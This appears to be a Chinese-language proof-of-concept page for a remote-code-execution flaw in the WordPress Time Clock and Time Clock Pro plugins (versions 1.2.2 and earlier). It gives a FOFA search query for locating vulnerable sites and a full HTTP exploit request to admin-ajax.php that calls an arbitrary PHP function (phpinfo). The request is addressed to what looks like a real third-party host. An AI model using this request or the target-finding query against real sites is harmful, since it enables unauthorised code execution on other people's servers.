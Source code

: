 ### 漏洞背景

WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。WordPress plugin Time Clock plugin and Time Clock Pro 1.2.2版本及之前版本存在代码注入漏洞，该漏洞源于包含一个远程代码执行。

### fofa查询语句

> body="/wp-content/plugins/time-clock/" || body="/wp-content/plugins/time-clock-pro/"

![image-20241112112213215](./assets/image-20241112112213215.png)

### 漏洞复现

- 漏洞链接：https://xx.xx.xx.xx/wp-admin/admin-ajax.php?action=etimeclockwp_load_function

- 漏洞数据包：

```http
POST /wp-admin/admin-ajax.php?action=etimeclockwp_load_function HTTP/1.1
Host: staff.hempsteadtherapycentre.co.uk
Cookie: __wpdm_client=2344dd128af4f05a1dc3f452226884f7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

function=phpinfo
```

![image-20241112112023864](./assets/image-20241112112023864.png)

****